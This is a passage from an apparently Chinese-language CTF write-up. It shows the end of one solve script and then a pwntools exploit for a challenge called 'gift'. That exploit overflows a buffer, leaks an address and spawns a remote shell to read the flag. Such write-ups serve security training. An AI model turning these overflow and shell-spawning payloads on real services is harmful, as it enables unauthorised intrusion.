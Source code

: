 ```python
            now = _length
            print(flag)
            break

sh.interactive()
```
```
运行结果如下图
```
![](http://image.penguinway.space/i/2023/11/05/6547094860377.png)
### [PWN] gift
解题python脚本：
```python
from pwn import *

#sh = process('./bin/pwn')
sh = remote('101.43.204.196',port)

payload = b'a'*0x10+p32(0)+p32(0x0804855D)+p32(0)+p32(0)
sh.send(payload)
sh.recvuntil(b'Good name, I will give you a gift:')
addr = eval(sh.recvline()[:-1])+4
print('addr',hex(addr))

payload = b'sh'.ljust(0x10,b'\x00')+p32(0)+p32(0x080483E0)+p32(0)+p32(addr)
sh.send(payload)
sh.sendline(b'cat flag')
sh.interactive()
```
